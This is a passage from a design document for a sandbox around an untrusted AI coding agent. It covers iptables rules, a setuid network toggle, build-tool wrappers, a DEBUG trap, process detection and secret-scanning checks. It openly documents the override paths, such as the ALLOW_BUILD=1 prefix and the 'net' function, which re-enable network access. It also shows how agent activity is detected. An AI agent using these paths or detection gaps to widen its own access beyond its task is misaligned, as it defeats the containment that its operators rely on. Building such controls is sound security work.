| LLM ACCEPT | `host.docker.internal:8080` | Allow (for inference) |
| Memgraph ACCEPT | `memgraph:7687` | Allow (for knowledge queries) |
| DNS ACCEPT | `8.8.8.8, 1.1.1.1` | Allow (whitelist only) |
| SSH ACCEPT | `*:22` | Allow (git operations) |
| **Default** | **All other** | **DROP + LOG** |

#### 7.4 Session Reset Between Tickets

Between development sessions, the agent environment is reset via `make session-reset`. This clears process state, environment variables, and any cached credentials that might have been injected during the previous session — preventing cross-session credential leakage.

#### 7.5 Build Tool Detection Library

The detection library (`detection.sh`) provides three layers for identifying whether OpenCode is the active process:

**Ref:** `agent/scripts/lib/detection.sh:15-121`

| Detection Layer | Method | Speed |
| --- | --- | --- |
| Lock file | Check `/tmp/opencode-session.lock` freshness (< 24h) | Fastest |
| Environment variables | `OPENCODE_SESSION_ID`, `OPENCODE_YOLO`, `OPENCODE_CONFIG_PATH` | Fast |
| Process tree | Walk parent PIDs up to 20 levels, match `opencode` pattern | Slowest |

When OpenCode is detected, build tool wrappers block execution and display instructions for the `ALLOW_BUILD=1` override.

---

### 8. Secret Leak Prevention (Proxy-Side)

#### 8.1 Content-Length Recalculation

After sanitization modifies the response body, the original `Content-Length` header becomes stale (it no longer matches the actual body size). The proxy recalculates it:

**Ref:** `proxy/src/proxy.rs:109-146`

```rust
pub fn build_response_headers(
    original_headers: &HeaderMap,
    body_len: usize,
) -> HeaderMap {
    let mut headers = HeaderMap::new();

    headers.insert(
        axum::http::header::CONTENT_LENGTH,
        HeaderValue::from(body_len),
    );

    for (name, value) in original_headers.iter() {
        let name_str = name.as_str().to_lowercase();

        match name_str.as_str() {
            "content-length" | "transfer-encoding" => continue,
            "etag" | "content-md5" | "content-crc32" => {
                tracing::debug!(
                    "Removing checksum header after sanitization: {}",
                    name_str
                );
                continue;
            }
            "x-debug-token" | "x-debug-info" | "server-timing" | "x-runtime" => {
                tracing::debug!("Removing blocked header: {}", name_str);
                continue;
            }
            _ => {
                headers.insert(name.clone(), value.clone());
            }
        }
    }

    headers
}
```

This prevents HTTP desync attacks where a mismatched `Content-Length` could cause a downstream parser to interpret the response differently than intended.

#### 8.2 ETag and Content-MD5 Removal

Because sanitization modifies the response body, any body-integrity checksums become invalid. The following headers are **removed** (not recalculated) from sanitized responses:

| Header | Risk if Retained |
| --- | --- |
| `ETag` | Hash no longer matches body; could cause cache conflicts |
| `Content-MD5` | MD5 no longer matches body; could trigger integrity errors |
| `Content-CRC32` | Same as above |

#### 8.3 Response Size Limits

The proxy enforces maximum response body sizes to prevent OOM attacks. Oversized responses are rejected before sanitization runs:

**Ref:** `proxy/src/proxy.rs:293-302`

```rust
let response_bytes = axum::body::to_bytes(body, max_response_size)
    .await
    .map_err( | e | {
        let err_str = e.to_string();
        if err_str.contains("length limit") {
            ProxyError::ResponseBodyTooLarge(max_response_size)
        } else {
            ProxyError::ResponseBodyRead(err_str)
        }
    })?;
```

#### 8.4 Blocked Headers

**Ref:** `proxy/src/sanitizer.rs:18-24`

```rust
const BLOCKED_HEADERS: &[&str] = &[
    "x-debug-token",
    "x-debug-info",
    "server-timing",
    "x-runtime",
    "x-request-debug",
];
```

These headers are removed from all responses because they may contain debugging information that could reveal internal system details or credential fragments to the agent.

---

### 9. Host-Side Verification

#### 9.1 Pre-Flight Verification Pipeline

The `make verify` target runs two verification scripts before any code extraction from the agent:

**Ref:** `Makefile:259-263`

```makefile
verify:
    @echo "Running pre-flight security verification..."
    @./scripts/verify-zero-knowledge.sh
    @./scripts/verify-local-llm-security.sh
    @echo "Pre-flight verification complete"
```

#### 9.2 Zero-Knowledge Verification

`verify-zero-knowledge.sh` performs 7 test categories with 20+ individual checks:

**Ref:** `scripts/verify-zero-knowledge.sh`

| Test | What It Verifies |
| --- | --- |
| Test 1: Agent Credential Verification | All env vars in agent contain `DUMMY_*` values |
| Test 2: Proxy Credential Verification | Proxy has real credentials (not dummies) |
| Test 3: Agent Proxy Configuration | `HTTP_PROXY` and `HTTPS_PROXY` point to `proxy:3000` |
| Test 4: Network Connectivity | Agent can reach proxy health endpoint |
| Test 5: Credential Isolation | Agent and proxy have **different** values for the same env var |
| Test 6: File System Checks | `.env.proxy` and `.env.agent` exist and are in `.gitignore` |
| Test 7: Security Best Practices | Agent runs as non-root, `.gitignore` excludes credential files |

The credential isolation test (Test 5) is the most critical — it confirms that the same environment variable name (e.g., `OPENAI_API_KEY`) has a different value in the agent container versus the proxy container:

**Ref:** `scripts/verify-zero-knowledge.sh:252-264`

```bash
OPENAI_AGENT=$(docker exec slapenir-agent env | grep "^OPENAI_API_KEY=" | cut -d'=' -f2-)
OPENAI_PROXY=$(docker exec slapenir-proxy env | grep "^OPENAI_API_KEY=" | cut -d'=' -f2-)

if [ -n "$OPENAI_AGENT" ] && [ -n "$OPENAI_PROXY" ]; then
    if [ "$OPENAI_AGENT" = "$OPENAI_PROXY" ]; then
        check_fail "Agent and Proxy have SAME OPENAI_API_KEY (CRITICAL SECURITY ISSUE!)"
    else
        check_pass "Agent and Proxy have DIFFERENT OPENAI_API_KEY (correct)"
    fi
fi
```

#### 9.3 Network Isolation Verification

`verify-local-llm-security.sh` performs 8 test categories validating that the agent cannot reach external endpoints:

| Test | What It Verifies |
| --- | --- |
| Test 1: LLM Status | llama-server running and bound to `0.0.0.0` |
| Test 2: Network Configuration | `extra_hosts`, `HTTP_PROXY`, `NO_PROXY` configured |
| Test 3: Agent → LLM Connectivity | Agent can reach llama-server via `host.docker.internal` |
| Test 4: Network Isolation | Agent **cannot** reach `api.openai.com`, `google.com`, or `1.1.1.1` |
| Test 5: iptables Rules | `TRAFFIC_ENFORCE` chain exists with DROP and LOG rules |
| Test 6: Proxy Bypass | Local services are correctly bypassed |
| Test 7: OpenCode Configuration | Provider points to `host.docker.internal` |
| Test 8: Docker Network | `slape-net` subnet is `172.30.0.0/24`, internal flag checked |

#### 9.4 Secret Scanning (Host-Side)

Before code is extracted from the agent container, the host-side `make verify` pipeline runs secret scanning tools (gitleaks, trufflehog) against the extracted codebase. These tools detect any real credentials that may have been inadvertently written into source files by the agent during development. Any detected secrets block the extraction process and trigger a security review.

---

### Key Takeaways

1. **4-stage loading with hard failure.** The credential pipeline degrades gracefully (config → auto-detect → merge → fallback) but fails hard if zero credentials are found — an empty `SecretMap` is a startup error, not a runtime warning.

2. **Dual-automaton architecture.** Separate Aho-Corasick automatons for injection and sanitization are built once at construction time, enabling O(N) single-pass processing in both directions with zero per-request setup cost.

3. **Binary-safe, paranoid sanitization.** All inbound responses are sanitized at the byte level (not string level), and a second verification pass catches any edge cases where the first pass missed a match. Failure is a hard error, not a log warning.

4. **AWS SigV4 re-signs, not replaces.** The AWS strategy does not perform string substitution — it constructs a complete `SignableRequest` and invokes the official AWS SDK signing pipeline. This ensures cryptographic correctness for all AWS services, regions, and STS temporary credentials.

5. **Memory is zeroized deterministically.** The `ZeroizeOnDrop` derive guarantees that `real_secrets` and `dummy_secrets` are overwritten with zeros the instant the `SecretMap` leaves scope, with no GC delay and no compiler-elision risk.

6. **Leak prevention is layered.** On the agent side: OpenCode deny rules, fetch monkey-patching, iptables default-DROP, and session resets. On the proxy side: Content-Length recalculation, checksum removal, blocked headers, response size limits, and paranoid verification. On the host side: gitleaks/trufflehog scanning and `make verify` pre-flight checks.

---

# Section 6: Network Isolation Deep-Dive

### Overview

This document provides a deep technical analysis of the SLAPENIR network isolation architecture — the kernel-level enforcement layer that ensures the untrusted AI agent cannot communicate with the internet except through the controlled proxy pathway. It covers the complete iptables rule chain, the `netctl` setuid bridge that allows a non-root user to temporarily open proxy access, the `ALLOW_BUILD=1` lifecycle for build tool dependency resolution, the 3-layer build control system (OpenCode deny → wrapper intercept → DEBUG trap), DNS filtering, NAT transparent proxying, runtime integrity monitoring, and emergency shutdown procedures.

---

### 1. iptables Rule Chain Evaluation

#### 1.1 TRAFFIC_ENFORCE Chain Construction

The custom `TRAFFIC_ENFORCE` iptables chain is created at container startup by `traffic-enforcement.sh`, which runs as root via s6-overlay's `cont-init.d` phase. The chain is flushed and rebuilt on every container start, ensuring a clean state:

**Ref:** `agent/scripts/traffic-enforcement.sh:59-64`

```bash
iptables -F TRAFFIC_ENFORCE 2>/dev/null | | true
iptables -X TRAFFIC_ENFORCE 2>/dev/null | | true

iptables -N TRAFFIC_ENFORCE
```

The chain is then inserted at position 1 of the OUTPUT chain, making it the first filter evaluated for all outbound packets:

**Ref:** `agent/scripts/traffic-enforcement.sh:161`

```bash
iptables -I OUTPUT 1 -j TRAFFIC_ENFORCE
```

#### 1.2 Complete Rule Table (LOCKED Mode)

The following table shows every rule in evaluation order. First match wins.

| Rule # | Protocol | Destination | Port | State | Action | Purpose |
| -------- | ---------- | ------------- | ------ | ------- | -------- | --------- |
| 1 | * | `lo` | — | — | ACCEPT | Loopback (local processes) |
| 2 | * | 127.0.0.0/8 | — | — | ACCEPT | Localhost addresses |
| 3 | * | — | — | ESTABLISHED,RELATED | ACCEPT | Return traffic for existing connections |
| 4 | UDP | 8.8.8.8 | 53 | — | ACCEPT | Google DNS (primary) |
| 5 | UDP | 8.8.4.4 | 53 | — | ACCEPT | Google DNS (secondary) |
| 6 | TCP | 8.8.8.8 | 53 | — | ACCEPT | Google DNS (TCP fallback) |
| 7 | TCP | 8.8.4.4 | 53 | — | ACCEPT | Google DNS (TCP fallback) |
| 8 | UDP | 1.1.1.1 | 53 | — | ACCEPT | Cloudflare DNS |
| 9 | TCP | 1.1.1.1 | 53 | — | ACCEPT | Cloudflare DNS (TCP fallback) |
| 10 | UDP | * | 53 | — | LOG `[DNS-BLOCK]` + DROP | Block unauthorized DNS |
| 11 | TCP | * | 53 | — | LOG `[DNS-BLOCK]` + DROP | Block unauthorized DNS (TCP) |
| 12 | TCP | * | 22 | — | ACCEPT | SSH (git push/pull) |
| **13** | **\*** | **$PROXY_IP** | **\*** | — | **DROP** | **Proxy BLOCKED by default** |
| 14 | * | 172.30.0.0/24 | — | — | ACCEPT | Docker internal network |
| 15 | TCP | $LLAMA_HOST_IP | $LLAMA_PORT | — | ACCEPT | Local LLM inference |
| 16 | * | * | — | — | LOG `[BYPASS-ATTEMPT]` (10/min) | Log unknown traffic |
| 17 | * | * | — | — | REJECT | Default deny (fast fail) |

#### 1.3 iptables Rule Chain Evaluation Flowchart

```mermaid
flowchart TD
    OUT["Agent process<br/>initiates outbound packet"] --> OUTPUT["OUTPUT chain"]
    OUTPUT --> TE["TRAFFIC_ENFORCE<br/>(position 1 in OUTPUT)"]

    TE --> R1{"Rule 1-2:<br/>Loopback / localhost?"}
    R1 --> | Yes | A1["ACCEPT"]
    R1 --> | No | R2{"Rule 3:<br/>ESTABLISHED,RELATED?"}
    R2 --> | Yes | A2["ACCEPT"]
    R2 --> | No | R3{"Rules 4-9:<br/>DNS to trusted servers?"}
    R3 --> | Yes | A3["ACCEPT<br/>(8.8.8.8, 8.8.4.4, 1.1.1.1)"]
    R3 --> | No | R4{"Rules 10-11:<br/>DNS to any other?"}
    R4 --> | Yes | D1["LOG [DNS-BLOCK]<br/>+ DROP"]
    R4 --> | No | R5{"Rule 12:<br/>TCP port 22?"}
    R5 --> | Yes | A4["ACCEPT<br/>(SSH for git)"]
    R5 --> | No | R6{"Rule 13:<br/>Proxy IP?"}
    R6 --> | Yes | D2["DROP<br/>(proxy blocked)"]
    R6 --> | No | R7{"Rule 14:<br/>172.30.0.0/24?"}
    R7 --> | Yes | A5["ACCEPT<br/>(Docker network)"]
    R7 --> | No | R8{"Rule 15:<br/>LLM host:port?"}
    R8 --> | Yes | A6["ACCEPT<br/>(local inference)"]
    R8 --> | No | LOG["Rule 16:<br/>LOG [BYPASS-ATTEMPT]<br/>(rate-limited 10/min)"]
    LOG --> REJ["Rule 17:<br/>REJECT (fast fail)"]

    style D2 fill:#c0392b,color:#fff
    style D1 fill:#c0392b,color:#fff
    style REJ fill:#c0392b,color:#fff
    style LOG fill:#e67e22,color:#fff
    style A1 fill:#27ae60,color:#fff
    style A2 fill:#27ae60,color:#fff
    style A3 fill:#27ae60,color:#fff
    style A4 fill:#27ae60,color:#fff
    style A5 fill:#27ae60,color:#fff
    style A6 fill:#27ae60,color:#fff
```

#### 1.4 Critical Design: Rule 13 Precedes Rule 14

The proxy container lives on the Docker network at 172.30.0.3 (within the 172.30.0.0/24 subnet). Rule 13 (proxy DROP) is evaluated **before** Rule 14 (Docker network ACCEPT). Without this ordering, the agent could reach the proxy through Rule 14 and bypass all traffic enforcement — sending unauthenticated requests directly to external APIs.

This ordering is enforced by appending rules in sequence:

**Ref:** `agent/scripts/traffic-enforcement.sh:119-125`

```bash
iptables -A TRAFFIC_ENFORCE -d "$PROXY_IP" -j DROP
log "Proxy ($PROXY_IP) blocked - only accessible via ALLOW_BUILD"

iptables -A TRAFFIC_ENFORCE -d 172.30.0.0/24 -j ACCEPT
log "Docker internal network allowed"
```

#### 1.5 REJECT vs DROP

The final rule uses `REJECT --reject-with icmp-port-unreachable` instead of `DROP`. This causes the connecting application to receive an immediate "connection refused" error rather than hanging until timeout. For build tools, this produces clear error messages instead of opaque timeouts.

**Ref:** `agent/scripts/traffic-enforcement.sh:153`

```bash
iptables -A TRAFFIC_ENFORCE -j REJECT --reject-with icmp-port-unreachable
log "Unknown traffic rejected (fast fail)"
```

---

### 2. netctl setuid Bridge

#### 2.1 The Non-Root iptables Problem

The agent process runs as the `agent` user (non-root), but iptables manipulation requires root privileges (specifically `CAP_NET_ADMIN`). The `netctl` binary bridges this gap using the setuid mechanism:

**Ref:** `agent/scripts/netctl.c:1-27`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: netctl {enable | disable | status}\n");
        return 1;
    }

    if (strcmp(argv[1], "enable") != 0 &&
        strcmp(argv[1], "disable") != 0 &&
        strcmp(argv[1], "status") != 0) {
        fprintf(stderr, "netctl: invalid command '%s'\n", argv[1]);
        return 1;
    }

    if (geteuid() == 0) {
        setgid(0);
        setuid(0);
    }

    execl("/bin/bash", "bash", "-p", "/home/agent/scripts/network-enable.sh", argv[1], NULL);
    perror("execl");
    return 127;
}
```

#### 2.2 Security Properties

| Property | Implementation |
| --- | --- |
| Command allowlist | Only `enable`, `disable`, `status` accepted; all others rejected |
| Static compilation | `gcc -static` prevents dynamic library injection (`LD_PRELOAD` attacks) |
| setuid root | `chmod 4755` — binary runs with effective UID 0 regardless of caller |
| Full privilege escalation | `setgid(0)` + `setuid(0)` ensures real and effective UIDs are root |
| No arbitrary execution | `execl()` calls only the hardcoded `network-enable.sh` path |
| No environment leakage | Uses `bash -p` (privileged mode) to ignore user environment |

#### 2.3 How It Works

1. Build wrapper detects `ALLOW_BUILD=1` in the environment
2. Wrapper calls `netctl enable` (runs as agent user, but binary is setuid root)
3. `netctl` validates the command, escalates to root, and execs `network-enable.sh enable`
4. `network-enable.sh` inserts the proxy ACCEPT rule and creates NAT redirect chain
5. Build tool runs with network access through the proxy
6. Wrapper calls `netctl disable` after the build tool exits
7. `network-enable.sh` removes the ACCEPT rule, flushes NAT chain, deletes lock file

---

### 3. ALLOW_BUILD Lifecycle

#### 3.1 Enable Phase

When `network-enable.sh enable` is called, it performs three iptables operations:

**Ref:** `agent/scripts/network-enable.sh:33-79`

```bash
do_enable() {
    if [ -f "$LOCK_FILE" ]; then
        log "Network already enabled (lock file exists)"
        return 0
    fi

    local proxy_ip
    proxy_ip=$(resolve_host "$PROXY_HOST")

    local drop_line
    drop_line=$(iptables -L TRAFFIC_ENFORCE -n --line-numbers | grep "DROP.*$proxy_ip" | head -1 | awk '{print $1}')
    if [ -n "$drop_line" ]; then
        iptables -I TRAFFIC_ENFORCE "$drop_line" -d "$proxy_ip" -p tcp --dport "$PROXY_PORT" -j ACCEPT
    else
        iptables -I TRAFFIC_ENFORCE 4 -d "$proxy_ip" -p tcp --dport "$PROXY_PORT" -j ACCEPT
    fi

    if ! iptables -t nat -L TRAFFIC_REDIRECT -n >/dev/null 2>&1; then
        iptables -t nat -N TRAFFIC_REDIRECT
    fi

    if [ "$(iptables -t nat -L TRAFFIC_REDIRECT -n 2>/dev/null | grep -c REDIRECT)" -eq 0 ]; then
        iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 80 -j REDIRECT --to-ports "$PROXY_PORT"
        iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 443 -j REDIRECT --to-ports "$PROXY_PORT"
    fi

    if ! iptables -t nat -L OUTPUT -n 2>/dev/null | grep -q TRAFFIC_REDIRECT; then
        iptables -t nat -I OUTPUT 1 -j TRAFFIC_REDIRECT
    fi

    date +%s > "$LOCK_FILE"
    log "Network access ENABLED"
}
```

The enable phase performs three distinct operations:

| Operation | Table | What It Does |
| --- | --- | --- |
| Insert proxy ACCEPT | `filter` | Inserts ACCEPT rule **before** the proxy DROP rule (Rule 13), allowing TCP to proxy:3000 |
| Create NAT chain | `nat` | Creates `TRAFFIC_REDIRECT` chain with rules redirecting ports 80/443 → 3000 |
| Link NAT to OUTPUT | `nat` | Inserts `TRAFFIC_REDIRECT` at position 1 of the `nat OUTPUT` chain |

The lock file (`/tmp/slapenir-network-enabled.lock`) contains the Unix timestamp of when network was enabled, enabling idempotency checks and staleness detection.

#### 3.2 Disable Phase

**Ref:** `agent/scripts/network-enable.sh:81-105`

```bash
do_disable() {
    if [ ! -f "$LOCK_FILE" ]; then
        return 0
    fi

    local proxy_ip
    proxy_ip=$(resolve_host "$PROXY_HOST" 2>/dev/null | | true)
    if [ -n "$proxy_ip" ]; then
        iptables -D TRAFFIC_ENFORCE -d "$proxy_ip" -p tcp --dport "$PROXY_PORT" -j ACCEPT 2>/dev/null | | true
    fi

    iptables -t nat -D OUTPUT -j TRAFFIC_REDIRECT 2>/dev/null | | true
    iptables -t nat -F TRAFFIC_REDIRECT 2>/dev/null | | true
    iptables -t nat -X TRAFFIC_REDIRECT 2>/dev/null | | true

    rm -f "$LOCK_FILE"
    log "Network access DISABLED"
}
```

The disable phase is fully idempotent — all commands use `|| true` to tolerate already-removed rules. The three cleanup steps exactly reverse the three enable steps.

#### 3.3 ALLOW_BUILD=1 Sequence Diagram

```mermaid
sequenceDiagram
    participant AG as Agent (non-root)
    participant WRAP as Build Wrapper
    participant NETCTL as netctl (setuid root)
    participant NEE as network-enable.sh
    participant IPT as iptables (kernel)
    participant PX as Proxy :3000
    participant EXT as External Registry

    AG->>WRAP: ALLOW_BUILD=1 npm install
    WRAP->>WRAP: is_build_allowed() → ALLOW_BUILD=1
    WRAP->>WRAP: log_build_attempt("ALLOWED", "ALLOW_BUILD=1")
    WRAP->>NETCTL: netctl enable
    NETCTL->>NETCTL: setuid(0) + setgid(0)
    NETCTL->>NEE: exec network-enable.sh enable

    NEE->>IPT: Find DROP rule for proxy IP (line number)
    NEE->>IPT: INSERT ACCEPT before DROP<br/>-d $PROXY_IP -p tcp --dport 3000
    NEE->>IPT: Create NAT TRAFFIC_REDIRECT chain
    NEE->>IPT: REDIRECT --to-ports 3000 (ports 80, 443)
    NEE->>IPT: Link TRAFFIC_REDIRECT to nat OUTPUT
    NEE->>NEE: Create lock file with timestamp

    WRAP->>WRAP: Set HTTP_PROXY=http://proxy:3000
    WRAP->>WRAP: Set HTTPS_PROXY=http://proxy:3000
    WRAP->>EXT: npm install (via proxy)
    EXT-->>PX: Response
    PX-->>AG: Clean response

    AG->>WRAP: Build complete (exit code)
    WRAP->>NETCTL: netctl disable
    NETCTL->>NEE: exec network-enable.sh disable
    NEE->>IPT: DELETE ACCEPT rule for proxy
    NEE->>IPT: Flush + delete NAT TRAFFIC_REDIRECT
    NEE->>NEE: Remove lock file

    Note over IPT: Proxy DROPped again<br/>Network LOCKED
```

---

### 4. Build Wrapper Intercept

#### 4.1 Wrapper Architecture

Build tools are intercepted through binary shadowing — wrapper scripts are installed on the `$PATH` with the same names as the real tools. The wrappers source a shared library (`build-wrapper.sh`) and delegate all logic to it:

**Ref:** `agent/scripts/gradle-wrapper:1-12`

```bash
set -euo pipefail
export TOOL_NAME="gradle"
source "/home/agent/scripts/lib/build-wrapper.sh"
run_build_wrapper "$@"
```

**Ref:** `agent/scripts/npm-wrapper:1-11`

```bash
set -euo pipefail
export TOOL_NAME="npm"
source "/home/agent/scripts/lib/build-wrapper.sh"
run_build_wrapper "$@"
```

Eight wrappers are installed, covering the most common build tools:

| Wrapper | Real Binary | Override Variable |
| --- | --- | --- |
| `gradle` | `gradle.real` | `GRADLE_ALLOW_BUILD=1` |
| `mvn` | `mvn.real` | `MVN_ALLOW_BUILD=1` |
| `npm` | `npm.real` | `NPM_ALLOW_BUILD=1` |
| `yarn` | `yarn.real` | `YARN_ALLOW_BUILD=1` |
| `pnpm` | `pnpm.real` | `PNPM_ALLOW_BUILD=1` |
| `pip` | `pip.real` | `PIP_ALLOW_BUILD=1` |
| `pip3` | `pip3.real` | `PIP3_ALLOW_BUILD=1` |
| `cargo` | `cargo.real` | `CARGO_ALLOW_BUILD=1` |

#### 4.2 Build Allow Logic

**Ref:** `agent/scripts/lib/build-wrapper.sh:10-28`

```bash
is_build_allowed() {
    if [ "${ALLOW_BUILD:-}" = "1" ]; then
        return 0
    fi

    local tool_upper
    tool_upper=$(echo "$TOOL" | tr '[:lower:]' '[:upper:]')
    if [ "${tool_upper}_ALLOW_BUILD:-}" = "1" ]; then
        return 0
    fi

    if ! is_opencode_active 2>/dev/null; then
        if [ -t 0 ] && [ -z "${OPENCODE_SESSION_ID:-}" ]; then
            return 0
        fi
    fi

    return 1
}
```

The allow logic checks in order:

| Priority | Condition | Rationale |
| --- | --- | --- |
| 1 | `ALLOW_BUILD=1` set | Global override from OpenCode or shell |
| 2 | `{TOOL}_ALLOW_BUILD=1` set | Tool-specific override (e.g., `GRADLE_ALLOW_BUILD=1`) |
| 3 | OpenCode not active + interactive shell + no session ID | Human in unrestricted shell |

If none match, the build is blocked and the user sees instructions.

#### 4.3 Network Enable/Disable in Wrapper

**Ref:** `agent/scripts/lib/build-wrapper.sh:86-103`

```bash
if $needs_network; then
    _enable_network_if_needed
    HTTP_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}" \
    HTTPS_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}" \
    NO_PROXY="localhost,127.0.0.1,proxy,postgres,memgraph,host.docker.internal" \
    "$tool_path" "$@"
    local exit_code=$?
    _disable_network_after_build
    exit $exit_code
else
    exec "$tool_path" "$@"
fi
```

The wrapper only enables network if `ALLOW_BUILD=1` or a tool-specific override is set. It sets `HTTP_PROXY`, `HTTPS_PROXY`, and `NO_PROXY` as environment variables for the real build tool, ensuring proxy routing. After the tool exits (regardless of exit code), network is immediately disabled.

---

### 5. BASH_ENV DEBUG Trap

#### 5.1 How Pathname-Executed Scripts Are Caught

Build wrappers intercept commands resolved via `$PATH` lookup (e.g., `gradle build`). But scripts executed by pathname (e.g., `./gradlew build`) bypass `$PATH` entirely. The BASH_ENV DEBUG trap closes this gap:

**Ref:** `agent/scripts/lib/allow-build-trap.sh:1-68`

```bash
_slapenir_net_auto=0

_slapenir_preexec() {
    local cmd="${BASH_COMMAND:-}"

    if [ "${ALLOW_BUILD:-}" = "1" ]; then
        if [ "$_slapenir_net_auto" = "0" ]; then
            if command -v netctl >/dev/null 2>&1 && ! netctl status >/dev/null 2>&1; then
                netctl enable 2>/dev/null | | true
                _slapenir_net_auto=1
            fi
        fi
        if [ -z "${HTTP_PROXY:-}" ]; then
            export HTTP_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export HTTPS_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export NO_PROXY="localhost,127.0.0.1,proxy,postgres,memgraph,host.docker.internal"
        fi
        return 0
    fi

    if [[ "$cmd" == ALLOW_BUILD=1\ * ]]; then
        if [ "$_slapenir_net_auto" = "0" ]; then
            if command -v netctl >/dev/null 2>&1 && ! netctl status >/dev/null 2>&1; then
                netctl enable 2>/dev/null | | true
                _slapenir_net_auto=1
            fi
        fi
        if [ -z "${HTTP_PROXY:-}" ]; then
            export HTTP_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export HTTPS_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}"
            export NO_PROXY="localhost,127.0.0.1,proxy,postgres,memgraph,host.docker.internal"
        fi
    fi
}

_slapenir_precmd() {
    if [ "$_slapenir_net_auto" = "1" ]; then
        netctl disable 2>/dev/null | | true
        unset HTTP_PROXY HTTPS_PROXY NO_PROXY 2>/dev/null | | true
        _slapenir_net_auto=0
    fi
}

trap '_slapenir_preexec' DEBUG

if [[ $- == *i* ]]; then
    PROMPT_COMMAND="${PROMPT_COMMAND:+$PROMPT_COMMAND;}_slapenir_precmd"
else
    trap '_slapenir_precmd' EXIT
fi
```

#### 5.2 Trap Mechanism

| Trap | When It Fires | Purpose |
| --- | --- | --- |
| `DEBUG` | Before every command execution | Detect `ALLOW_BUILD=1` in `BASH_COMMAND` and enable network |
| `PROMPT_COMMAND` (interactive) | Before each shell prompt | Disable network after command completes |
| `EXIT` (non-interactive) | When shell exits | Disable network as cleanup |

#### 5.3 Loading Mechanism

The trap is loaded via two mechanisms:

1. **`.bashrc` (interactive shells):** Sourced directly at shell startup

   **Ref:** `agent/scripts/setup-bashrc.sh:74-76`

   ```bash
   if [ -f /home/agent/scripts/lib/allow-build-trap.sh ]; then
       source /home/agent/scripts/lib/allow-build-trap.sh
   fi
   ```

2. **`BASH_ENV` (non-interactive shells):** When `BASH_ENV` is set to the trap script path, bash sources it automatically for every `bash -c` invocation — including those from OpenCode

#### 5.4 Interactive Shell `gradlew` Alias

For interactive sessions, `.bashrc` also defines a `gradlew` function that handles `./gradlew` scripts with network control:

**Ref:** `agent/scripts/setup-bashrc.sh:12-42`

```bash
_gradlew_real() {
    local gradlew_script
    if [ -f "./gradlew" ]; then
        gradlew_script="./gradlew"
    elif [ -f "gradlew" ]; then
        gradlew_script="gradlew"
    else
        echo "ERROR: gradlew not found in current directory" >&2
        return 1
    fi

    if [ "${ALLOW_BUILD:-}" != "1" ] && [ "${GRADLE_ALLOW_BUILD:-}" != "1" ]; then
        echo "BUILD TOOL BLOCKED: gradlew - Use: ALLOW_BUILD=1 gradlew <args>" >&2
        return 1
    fi

    if ! netctl status >/dev/null 2>&1; then
        netctl enable 2>/dev/null | | true
    fi

    HTTP_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}" \
    HTTPS_PROXY="http://${BUILD_PROXY_HOST:-proxy}:${BUILD_PROXY_PORT:-3000}" \
    NO_PROXY="localhost,127.0.0.1,proxy,postgres,memgraph,host.docker.internal" \
    GRADLE_WRAPPER_OPTS="${GRADLE_WRAPPER_OPTS:--Dhttp.proxyHost=proxy -Dhttp.proxyPort=3000 -Dhttps.proxyHost=proxy -Dhttps.proxyPort=3000 -Dhttp.nonProxyHosts=localhost | 127.0.0.1 | proxy | postgres | host.docker.internal}" \
    "$gradlew_script" $GRADLE_WRAPPER_OPTS "$@"
    local exit_code=$?

    netctl disable 2>/dev/null | | true
    return $exit_code
}
alias gradlew='_gradlew_real'
```

Additionally, a generic `net` function provides network access for any ad-hoc command:

**Ref:** `agent/scripts/setup-bashrc.sh:44-60`

```bash
net() {
    local already_enabled=false
    netctl status >/dev/null 2>&1 && already_enabled=true

    if ! $already_enabled; then
        netctl enable 2>/dev/null | | true
    fi

    "$@"
    local exit_code=$?

    if ! $already_enabled; then
        netctl disable 2>/dev/null | | true
    fi

    return $exit_code
}
```

---

### 6. OpenCode Process Detection

#### 6.1 Three-Layer Detection

The `detection.sh` library provides three detection methods, used by build wrappers to determine if OpenCode is the active process:

**Ref:** `agent/scripts/lib/detection.sh:83-121`

| Layer | Method | Speed | Reliability |
| --- | --- | --- | --- |
| 1: Lock file | Check `/tmp/opencode-session.lock` exists and is < 24h old | Fastest | Highest |
| 2: Environment variables | `OPENCODE_SESSION_ID`, `OPENCODE_YOLO`, `OPENCODE_CONFIG_PATH` | Fast | High |
| 3: Process tree | Walk parent PIDs up to 20 levels, match `opencode` pattern | Slowest | Medium |

#### 6.2 Process Tree Walk

**Ref:** `agent/scripts/lib/detection.sh:15-64`

```bash
is_opencode_in_process_tree() {
    local pid=$$ depth=0

    while [ $depth -lt 20 ] && [ "$pid" -gt 1 ]; do
        local cmdline=""

        if [ -r "/proc/$pid/cmdline" ]; then
            cmdline=$(cat "/proc/$pid/cmdline" 2>/dev/null | tr '\0' ' ')
        elif command -v ps >/dev/null 2>&1; then
            cmdline=$(ps -o args= -p $pid 2>/dev/null | | echo "")
        fi

        if [[ "$cmdline" == *opencode* ]] && \
           [[ "$cmdline" != *is_opencode* ]] && \
           [[ "$cmdline" != *opencode-wrapper* ]] && \
           [[ "$cmdline" != *detection.sh* ]]; then
            return 0
        fi

        local ppid=""
        if [ -r "/proc/$pid/status" ]; then
            ppid=$(grep -E "^PPid:" "/proc/$pid/status" 2>/dev/null | awk '{print $2}' | | echo "")
        elif command -v ps >/dev/null 2>&1; then
            ppid=$(ps -o ppid= -p $pid 2>/dev/null | tr -d ' ')
        fi

        if [ -z "$ppid" ] | | [ "$ppid" -eq "$pid" ]; then
            break
        fi

        pid=$ppid
        depth=$((depth + 1))
    done

    return 1
}
```

The process tree walk excludes its own detection patterns (`is_opencode`, `opencode-wrapper`, `detection.sh`) to prevent false positives. It traverses up to 20 ancestor levels, which covers even deeply nested process hierarchies (e.g., OpenCode → Node.js → bash → gradle).

